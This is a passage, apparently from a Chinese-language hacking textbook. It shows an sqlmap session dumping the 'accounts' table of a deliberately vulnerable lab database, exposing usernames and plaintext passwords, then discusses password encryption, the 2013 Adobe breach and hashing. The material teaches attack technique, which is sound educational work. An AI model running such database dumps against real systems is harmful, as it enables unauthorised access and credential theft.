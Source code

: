 ```

| hitlog         |

| pen_test_tools |

+----------------+
```

该命令返回了六个表格。表格 `accounts` 看起来尤其有趣，因为它听起来可能包含用户信息。让我们查看其内容。使用 `-T` 标志来选择特定的表格，使用 `--dump` 选项将表格内容转储（显示）到终端。如果不包括 `--dump` 选项，SQLmap 会将表格内容写入文件。

```
sqlmap-shell>-D owasp10 -T accounts --dump

Table: accounts

[16 entries]

+-----+----------+----------+--------------+-----------------------------+

| cid | is_admin | username | password     | mysignature                 |

+-----+----------+----------+--------------+-----------------------------+

...

| 11  | FALSE    | scotty   | password     | Scotty Do                   |

| 12  | FALSE    | cal      | password     | Go Wildcats                 |

| 13  | FALSE    | john     | password     | Do the Duggie!              |

| 14  | FALSE    | kevin    | 42           | Doug Adams rocks            |

| 15  | FALSE    | dave     | set          | Bet on SET FTW              |

| 16  | FALSE    | ed       | pentest      | Commandline KungFu anyone?  |

+-----+----------+----------+--------------+-----------------------------+
```

输出显示了 `accounts` 表中的数据。共有五列：`cid`、`is_admin`、`username`、`password` 和 `mysignature`。还有 16 行数据。我剪辑了顶部几行以节省空间。

你可能认为开发人员可以通过加密这些密码来保护它们。Adobe 的工程团队也曾认为他们可以通过这种方式保护密码。但是，如果有人窃取了你的加密密钥，或者仅仅猜测出了它会怎样呢？作为 2013 年 Adobe 密码泄露事件的一部分，黑客窃取并解密了超过 1.5 亿个用户名和密码。

理想情况下，网站应该以一种无法让管理员或攻击者恢复明文密码的形式存储密码。软件开发人员通常使用哈希等单向函数，而不是加密密码。在下一节中，我们将了解哈希函数，并讨论黑客是如何破解它们的。我将解释为什么你应该选择包含大写字母、小写字母和符号的长密码。

保持 SQLmap 终端打开；你将在下一节中使用它。

### **密码哈希**
